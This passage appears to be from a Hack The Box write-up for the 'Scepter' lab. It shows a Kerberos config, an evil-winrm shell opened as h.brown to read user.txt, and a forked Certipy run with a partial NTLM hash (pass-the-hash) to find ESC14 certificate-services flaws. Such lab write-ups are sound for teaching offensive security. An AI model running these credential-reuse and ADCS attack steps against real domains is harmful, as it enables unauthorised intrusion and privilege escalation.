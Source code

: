   <pre style="
    background-color: #161b22;
    padding: 12px;
    border-radius: 6px;
    overflow-x: auto;
    margin: 0;
  "><code style="color: #c9d1d9;"># /etc/krb5.conf

[libdefaults]
        default_realm = SCEPTER.HTB
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        fcc-mit-ticketflags = true
        dns_canonicalize_hostname = false
        dns_lookup_realm = false
        dns_lookup_kdc = true
        k5login_authoritative = false
[realms]
        SCEPTER.HTB = {
                kdc = scepter.htb
                admin_server = scepter.htb
                default_admin = scepter.htb
        }
[domain_realm]
        .scepter.htb = SCEPTER.HTB</code></pre>
</div>

```bash
evil-winrm -i dc01.scepter.htb -r SCEPTER.HTB -u h.brown

Evil-WinRM shell v3.6

Warning: User is not needed for Kerberos auth. Ticket will be used

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\h.brown\Documents> cat ../Desktop/user.txt
```
## ESC14-B to win

At this point, even if we did a lot of enumeration on the machine, we are not going to find something except the thing that **p.adams** can DCSYNC on the machine and **h.brown** is in **CMS** group (Certificate Management Services) and in HelpDesk Admins

Knowing that ESC9, ESC10 and ESC14 are related to roughly the same vulnerability, i will enumerate ADCS again but with a github PR for ESC14

[PR 255](https://github.com/ly4k/Certipy/pull/255)

```bash
➜ git clone https://github.com/Deloitte-OffSecResearch/Certipy.git

➜ python3 -m venv .venv

➜ source .venv/bin/activate

➜ cd build/lib/certipy/

➜ python3 entry.py find -u 'd.baker@scepter.htb' -hashes :'18...ce' -dc-ip '10.129.28.117' -esc14 -vulnerable -stdout -debug
```